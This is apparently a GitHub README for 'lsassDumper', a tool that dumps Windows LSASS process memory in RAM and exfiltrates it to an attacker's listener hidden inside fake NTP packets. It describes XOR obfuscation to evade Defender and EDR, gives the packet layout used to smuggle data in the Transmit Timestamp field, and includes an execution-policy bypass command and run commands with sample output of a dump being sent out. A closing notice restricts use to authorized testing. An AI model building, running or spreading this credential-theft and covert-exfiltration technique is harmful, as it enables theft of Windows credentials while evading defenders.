 <h1 align="center"> Project lsassDumper </h1>

## **🔍 Overview**
`lsassDumper` is an advanced tool designed to **dump the memory of the Windows process `lsass.exe`** and **exfiltrate** it using **UDP packets disguised as NTP requests**.  
Unlike traditional tools like **Mimikatz**, this tool performs all operations **in RAM**, avoiding detection by **Windows Defender, EDR, and forensic tools**.

The tool consists of:
- A **dumper** `memdump.c` to **extract LSASS memory** in RAM.
- A **sender** that transmits the **compressed dump over UDP (NTP packets)**.
- A **receiver** (`server.py`) that **reassembles the fragments** and **decompresses the memory dump**.

---

## **🛠 Features**
### **🔹 Process Identification**
- The **process name (`lsass.exe`) is obfuscated** in the source code using **XOR encoding** (`0x13` key) to **bypass static detection**.
- **Windows APIs (`CreateToolhelp32Snapshot`)** are used to **enumerate processes and extract the PID** dynamically.

### **🔹 Memory Dumping**
- Uses **MiniDumpWriteDump (from `DbgHelp.dll`)** to dump LSASS **directly into RAM**, **never touching the disk**.
- A **memory-mapped file** acts as a temporary buffer to minimize detection.

### **🔹 Compression (zlib)**
- The **dump is compressed in-memory** using `zlib` before transmission.
- This **reduces size** and makes the exfiltration **less detectable**.

### **🔹 Exfiltration via Fake NTP Packets**
- The **compressed dump is fragmented into small chunks** and sent via **UDP packets disguised as NTP traffic**.
- The **"Transmit Timestamp" field** of the NTP packet is **hijacked** to store **payload fragments**.

### **🔹 Receiver Script**
- A **Python-based receiver** (`receiver.py`) **listens on UDP 123 (NTP)**.
- It **reassembles the fragmented dump**, **decompresses** it, and **writes it to a file**.

---

## **📜 How NTP Packet Camouflage Works**
### **🔹 Normal NTP Packet Structure**
NTP (Network Time Protocol) packets typically contain **48 bytes**, with the last 8 bytes storing the **Transmit Timestamp**.  

```
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|LI | VN  |Mode|    Stratum     |     Poll      |  Precision   |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                     Root Delay (32-bit)                      |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Root Dispersion (32-bit)                    |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                    Reference ID (32-bit)                     |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                Reference Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Originate Timestamp (64-bit)                 |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                  Receive Timestamp (64-bit)                  |
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
|                 Transmit Timestamp (64-bit)                  | <-- Exfiltrated Data
+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

### **🔹 How This Tool Abuses NTP**
- Instead of sending a **valid NTP Transmit Timestamp**, we **embed data in this field**.
- The **first packet** contains a **header**:
  - **4 bytes** → `total number of fragments` (big-endian)
  - **4 bytes** → `total compressed size` (big-endian)
- Each **subsequent packet** contains:
  - **4 bytes** → `fragment sequence number`
  - **4 bytes** → `data fragment`

This **allows memory dump exfiltration under the disguise of legitimate NTP traffic**.

---

## **🚀 Installation & Compilation**
### **🔹 Windows (PowerShell)**
 -- If you have vscode or else configured
 1. Run the following command:
   ```powershell
   Set-ExecutionPolicy Bypass -Scope Process -Force; ./run.ps1
   ```

---

## **🎯 Usage**
### **1️⃣ Run the Dumper (Attacker)**
On **Windows**:
```powershell
.\memdump.exe
```

You will be prompted to **enter the remote server IP and port** for exfiltration.

### **2️⃣ Run the Receiver (Listener)**
On the **attacker machine**, run:
```bash
python3 server.py
```
This will **listen on UDP port 123 (NTP)** and reconstruct the **exfiltrated dump**.

---

## **📌 Example Execution**
### **🟢 Attacker (Dumper)**
```
[*] Enter server IP: 192.168.1.100
[*] Enter server port: 123
[+] Process lsass.exe found with PID 1234
[+] Memory dump completed. Size: 16 MB.
[+] Compression completed. Compressed size: 512 KB.
[+] Header sent: 128 fragments, 512 KB total.
[+] Packet 1/128 sent.
...
[+] Transmission completed.
```

### **🟢 Receiver (Listener)**
```
[INFO] Listening on 0.0.0.0:123 (global timeout: 30s)
[INFO] Header received: 128 fragments, 512 KB compressed size.
[INFO] Receiving packets...
[Reconstitution] [========------] 50% (64/128)
[INFO] All fragments received.
[INFO] Decompressing...
[INFO] Dump saved as dump_memory.bin.
```

---

## **⚠️ Legal Notice**
🚨 **This tool is for EDUCATIONAL and AUTHORIZED TESTING ONLY.**  
Use this tool **only on systems you own or have explicit permission to test**.

---
